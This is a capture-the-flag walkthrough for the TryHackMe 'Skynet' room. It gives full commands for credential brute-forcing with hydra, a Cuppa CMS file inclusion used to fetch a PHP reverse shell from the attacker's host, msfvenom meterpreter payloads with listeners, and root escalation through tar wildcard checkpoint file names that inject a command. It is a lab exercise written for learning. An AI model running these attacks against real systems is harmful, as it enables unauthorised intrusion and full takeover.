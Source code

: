 *2021-08-29*

*kimm3*

# Walkthrough: Skynet
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/skynet)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history
export IP=10.10.158.105
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210829131310349.png)

Web, email, smb/samba and ssh.

![index-p80](assets/markdown-img-paste-20210829131335635.png)

Index page. Url does not change when you search.

`smbclient -N -L $IP | tee scans/smblist.txt`

![smblist](assets/markdown-img-paste-20210829131553385.png)

```
cd foundfiles
smget -R smb://$IP/anonymous
smbget -R smb://$IP/milesdyson
```

![smbget-logs](assets/markdown-img-paste-20210829131843816.png)

Three logfiles downloaded.

![log1txt](assets/markdown-img-paste-20210829131926555.png)

Two of them empty. One containing possible credentials.

`hydra -l milesdyson -P foundfiles/logs/log1.txt $IP smb | tee scans/smb-milesdyson-log1.txt`

![hydra-smb-milesdyson](assets/markdown-img-paste-20210829132305225.png)

Noop, let's move on.

`ffuf -u "http://10.10.158.105/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-index-dir`

![ffuf-index-dir](assets/markdown-img-paste-20210829132917138.png)

![squirrelindex](assets/markdown-img-paste-20210829132833808.png)

```
hydra -l milesdyson -P foundfiles/logs/log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." | tee scans/hydra-squirrel-login.txt
```

I used the login page and not the 'redirect.php' page at first, which didn't work.

![pw-squirrel](assets/markdown-img-paste-20210829134809745.png)

![pw-samba](assets/markdown-img-paste-20210829134922743.png)

Convenient.

![crypt](assets/markdown-img-paste-20210829135004217.png)

Weird.

Using the smb password to retrieve files:

`smbget -R -U milesdyson smb://$IP/milesdyson`

![smb-miles](assets/markdown-img-paste-20210829135746678.png)

Inside notes/important.txt:

![secreturl](assets/markdown-img-paste-2021082913585997.png)

![milespage](assets/markdown-img-paste-20210829135950291.png)

`ffuf -u "http://10.10.158.105/45kra24zxs28v3yd/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-miles-dir`

![admffuf](assets/markdown-img-paste-20210829140150968.png)

![cuppa](assets/markdown-img-paste-20210829140131241.png)
## Foothold/Exploit
There's a local and remote file inclusion vulnerability for cuppa[(link)](https://www.exploit-db.com/exploits/25971). In the example below we can view '/etc/passwd'.

`http://10.10.158.105/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

![etcpasswd](assets/markdown-img-paste-20210829140846369.png)

We can retrieve a php file with this and run it.

```
cp tools/php-reverse-shell.php upload/myshell.php
#change ip
vim upload/myshell.php

nc -lvnp 1234
python3 -m http.server 80

curl "http://10.10.158.105/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.210.115/myshell.php?"
```

![foothold](assets/markdown-img-paste-20210829141655770.png)

![usrtxt](assets/markdown-img-paste-20210829141951829.png)

We can 'su milesdyson' from here with the same password as before - so we have access to two users.
### Shell to meterpreter
Instead of transfering another file, let's use the exact sam technique but with at meterpreter php file.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.8.210.115 -f raw -o upload/merp.php

script history/target2
msfconsole
use exploit/multi/handler
set payload
set LHOST
set LPORT
run

nc -lvnp 4444

cd upload
python3 -m http.server 80

curl "http://10.10.238.20/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.210.115/merp.php?"
```

![merpderp](assets/markdown-img-paste-2021083002102413.png)
## Privilege Escalation
Started out with a linPEAS search.

![shellroot](assets/markdown-img-paste-20210830021950672.png)

There's a cron job running every minute as root, that runs a script in milesdysons home folder.

![backupsh](assets/markdown-img-paste-20210830022446420.png)

It changes directory and runs tar with a wildcard as argument.

Follow this [link](https://www.exploit-db.com/papers/33930) to read about wildcard abuse in *nix systems.

Tar can execute commands while running as checkpoints, [link.](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html#checkpoints)

On PayloadsAllTheThings [github](https://github.com/cyberheartmi9/PayloadsAllTheThings/blob/master/Tar%20commands%20execution/README.md) there's also an example.

Let's try to use this on our local machine first.

`tar -cf test.tar symlinks.sh --checkpoint=1 --checkpoint-action=exec="echo hej"`

![tarechohej](assets/markdown-img-paste-20210830031905587.png)

Now let's try this with files as arguments and a wildcard in the command.
```
mkdir tmp/test
cd tmp/test
touch test1 test2 test3

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=echo hej'

tar -cf t.tar *
```

![tarwildcardstest](assets/markdown-img-paste-20210830032130952.png)

```
rm ./--checkpoint-action=exec=echo\ hej
echo "" > '--checkpoint-action=exec=sh'
```
We should enter /bin/sh as we run the tar command again.

![shworks](assets/markdown-img-paste-20210830032242618.png)

I also generated a meterpreter file and made sure I could this on my own machine before trying on target.

![merplocal](assets/markdown-img-paste-20210830041612337.png)

Let's try this at target. Lucky for us, the folder that the command runs in is owned by www-data.

```
#local
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.8.210.115 LPORT=4343 -f elf -o upload/merp.elf

#target
nc -lp 4321 > merp.elf
echo "/var/www/html/merp.elf" > shell

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh shell'
```

![merproot](assets/markdown-img-paste-20210830040828514.png)

![merprrootxt](assets/markdown-img-paste-2021083004090446.png)
